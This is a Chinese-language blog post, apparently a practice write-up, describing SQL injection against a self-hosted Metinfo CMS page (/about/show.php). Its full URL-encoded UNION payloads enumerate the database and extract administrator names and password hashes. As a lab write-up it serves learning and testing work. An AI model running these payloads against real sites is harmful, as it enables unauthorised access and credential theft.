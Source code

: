 ```yaml
---
title: 记一次曲折的注入
tags:
  - SQL注入
  - Webshell
  - 服务器
id: 84
categories:
  - SQL注入
date: 2016-07-28 10:31:52
---
```

这两天自己搭了一个Metinfo的站点练手，从网上找了个注入点，手工测试了一下明显的有注入点的存在，先扔到SQLMAP里跑跑看~~

<!--more-->

### 曲折才刚刚开始

[参考链接](http://mp.weixin.qq.com/s?__biz=MzIxNTIzMzM1Ng==&amp;mid=2651101014&amp;idx=1&amp;sn=15e52b03d594c7e848aef5b9e710a19c&amp;scene=24&amp;srcid=0716THfw2YH0oxgZcJ9Uc84M#rd)

`/about/show.php?lang=cn&amp;id=22`

这两天自己搭了一个Metinfo的站点练手，从网上找了个注入点，手工测试了一下明显的有注入点的存在，先扔到SQLMAP里跑跑看~~

![image](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/Metinfo/1.jpg)

成功跑出来了我服务器上的所有数据库 ~ 可以的 大兄弟

接着来跑跑表和字段吧~~

![image](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/Metinfo/2.jpg)

接着又跑出来了所有的表和met_admin_column表中的所有字段，看来马上就成功啦 哈哈
> 其实我们在使用工具的时候根据工具中回显的情况基本就可判断出，SQLMAP使用的是什么payload以及注入的具体方式，比如在我这次查询的过程中，可以看到不论查询的是数据库还是表，都是一个一个进行查询的，就可以判断出来payload中使用了LIMIT这样的查询方式，限定了每次查询的个数。要是出现一个一个字符出来的情况，可以判断出，查询数据库的版本可能较低，因为通常现在的数据库都是有元数据表的，可以直接进行查询，一个字符一个字符出现，说明他利用ACSII码在进行比对比对成功以后回显字符。
但是继续用SQLMAP跑字段中数据的时候出现了错误，无法dump字段中的数据，曲折就此开始......

* * *

### 开启手工大法

既然工具无法顺利的跑出数据，可以尝试使用手工进行注入

![image](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/Metinfo/3.jpg)

这是一个正常的页面

#### 爆字段数

首先来测试一下字段数有多少，通常我们使用order by语句进行查询，尝试多次order by n ，n值无论如何测试，页面回显都是正常的，说明这种测试方法行不通

![image](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/Metinfo/4.jpg)

换着使用union语句去查询当前表的字段数，利用：

`UNION ALL SELECT null`

`UNION ALL SELECT null,null`

`UNION ALL SELECT null,null,null`

方式递归查询字段数，直到返回正常的页面为止，当我查询到27个字段时为正常，第28个报错时，可以判断出共有27个字段数。

![image](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/Metinfo/5.jpg)

成功爆出了字段数，继续下一步

#### 爆出数据库

先使用联合查询尝试爆出显位

`UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27`

页面回显404，出现了错误 （_通过查看源代码可以知道，只要SQL语句查询不正确，就会返回404_）

修改payload，将整个payload进行URL编码

`%20UNION%20ALL%20SELECT%201%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2C11%2C12%2C13%2C14%2C15%2C16%2C17%2C18%2C19%2C20%2C21%2C22%2C23%2C24%2C25%2C26%2C27%23`

此时页面回显正常，说明我们语句构造成功了

![image](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/Metinfo/7.jpg)

但是回显的页面说我们权限不够，先不管他继续尝试注入看是否能够成功。

先构造出查询数据库的查询语句，如下所示：

`%28SELECT%20CONCAT%280x7162717671%2CIFNULL%28CAST%28schema_name%20AS%20CHAR%29%2C0x20%29%2C0x71716a6a71%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA%20LIMIT%207%2C1%29`

`SELECT+GROUP_CONCAT(schema_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEMA.SCHEMATA`

以上两种语句都可以查询元数据表中的各个数据库名字

我们将查询语句依次尝试放入各个字段的位置里进行测试，发现除了21号位置以外，其他不管放在什么位置都会弹出窗口显示权限不足。

**其他位置**

![image](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/Metinfo/8.jpg)

![image](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/Metinfo/9.jpg)

**21号字段**

![image](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/Metinfo/10.jpg)

此时我们可以看到，当我们把查询语句放在21号位置上的时候页面返回正常，并且成功的爆出了显位是14号位置，仿佛看见了希望呀，感动~~~

直接把查询语句放在14号位置，21号位置不放时，又出现了错误。。。我。。尼 淡定 。。。想了想看来得有个语句把21号位置占住了，不然有了显位也没用，没办法爆出数据库。

`/about/show.php?lang=cn&amp;id=-1411%20UNION%20ALL%20SELECT%201%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2C11%2C12%2C13%2CCONCAT_WS(0x203a20,USER(),DATABASE(),VERSION())%2C15%2C16%2C17%2C18%2C19%2C20%2C%28SELECT%20CONCAT%280x7162717671%2CIFNULL%28CAST%28schema_name%20AS%20CHAR%29%2C0x20%29%2C0x71716a6a71%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA%20LIMIT%207%2C1%29%2C22%2C23%2C24%2C25%2C26%2C27%23`

![image](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/Metinfo/11.jpg)

这次再次尝试了新的payload，看到结果感动的不要不要的，数据库爆出来了 让我哭一会 （_看起来很容易的样子，我弄的时候刚开始没想到这，各种挠头啊啊啊，还是突然想到这么搞得..._）

爆出了数据库剩下的就简单了

#### 爆出表

`/about/show.php?lang=cn&amp;id=-1411%20UNION%20ALL%20SELECT%201%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2C11%2C12%2C13%2C(SELECT+GROUP_CONCAT(table_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEMA.TABLES+WHERE+TABLE_SCHEMA=0x6d6574)%2C15%2C16%2C17%2C18%2C19%2C20%2C%28SELECT%20CONCAT%280x7162717671%2CIFNULL%28CAST%28schema_name%20AS%20CHAR%29%2C0x20%29%2C0x71716a6a71%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA%20LIMIT%207%2C1%29%2C22%2C23%2C24%2C25%2C26%2C27%23`

![image](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/Metinfo/12.jpg)

哈哈 ~ fighting

#### 爆字段

`/about/show.php?lang=cn&amp;id=-1411%20UNION%20ALL%20SELECT%201%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2C11%2C12%2C13%2C(SELECT+GROUP_CONCAT(column_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+TABLE_NAME=0x6d65745f61646d696e5f7461626c65)%2C15%2C16%2C17%2C18%2C19%2C20%2C%28SELECT%20CONCAT%280x7162717671%2CIFNULL%28CAST%28schema_name%20AS%20CHAR%29%2C0x20%29%2C0x71716a6a71%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA%20LIMIT%207%2C1%29%2C22%2C23%2C24%2C25%2C26%2C27%23`

![image](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/Metinfo/13.jpg)

#### 爆数据

`/about/show.php?lang=cn&amp;id=-1411%20UNION%20ALL%20SELECT%201%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2C11%2C12%2C13%2C(SELECT+GROUP_CONCAT(admin_pass,admin_name+SEPARATOR+0x3c62723e)+FROM+met.met_admin_table)%2C15%2C16%2C17%2C18%2C19%2C20%2C%28SELECT%20CONCAT%280x7162717671%2CIFNULL%28CAST%28schema_name%20AS%20CHAR%29%2C0x20%29%2C0x71716a6a71%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA%20LIMIT%207%2C1%29%2C22%2C23%2C24%2C25%2C26%2C27%23`

![image](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/Metinfo/14.jpg)

成功

### 总结

其实这个注入并不难，从它的代码上看到，没有任何的过滤措施，注入点就是一个基于布尔型的盲注，只要能够构造出来正确的查询语句，查询起来并不困难。这个注入点的难点其实就在于，你必须在占住21号位置的前提下利用14号位置进行查询，再者就是构造的语句必须经过URL编码，否则会报错。

`$show = $db-&gt;get_one("SELECT * FROM $met_column WHERE id=$id and module=1");`

这个是注入点的代码，发现其实很简答。
> 原文链接上给出的是基于时间型的盲注，可能是因为他们防护措施做的比较好，无法回显数据出来，我是直接在服务器上搭好当练习使用的，没有太多的防护措施，这个时候就可以巧妙地利用SQL语句中sleep()函数进行注入，这样即便没有回显，我们也可以拿到数据库等信息

* * *

通过这次练习，真的说明了渗透靠的是耐心，这个漏洞使用各种姿势去构造语句，一直没办法成功，这也说明了实战经验还是太少了，但是其实只要明白了整个注入的原理，根据返回的数据进行payload的修改，肯定能够构造出正确的语句，**注入的重点在于语句的构造，这也需要我们对SQL语句的熟练，以及对于常用数据库特性有着不错的理解，因此学好SQL语句和Mysql，Mssql，Oracle等常用的数据库都是必须的**